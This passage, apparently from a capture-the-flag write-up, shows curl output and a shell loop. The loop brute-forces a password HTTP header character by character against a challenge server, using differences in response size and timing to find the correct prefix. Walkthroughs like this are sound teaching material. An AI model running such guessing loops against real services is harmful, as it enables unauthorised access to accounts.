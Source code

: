 	< Content-Length: 29
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	Time taken: 3.174663165603297* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	...
	Time taken: 0.48192739215973557* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:kZ
	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:22:29 GMT
	< Content-Length: 30
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	Time taken: 0.7032416484348676%  

And here we again find another match. The entry for password:ky is inordinately larger than the others. It does not take long now, and soon we get to this point.

	$ for i in kyouk{a..z} kyouk{A..Z}
	do
	curl -s ctfclubiiit.tk:8080 -H password:$i -v
	done
	* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:kyouka
	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:24:09 GMT
	< Content-Length: 30
	< Connection: keep-alive
	< 
	...
	* Connection #0 to host ctfclubiiit.tk left intact
	Time taken: 0.13992585055199513* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:kyouko
	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)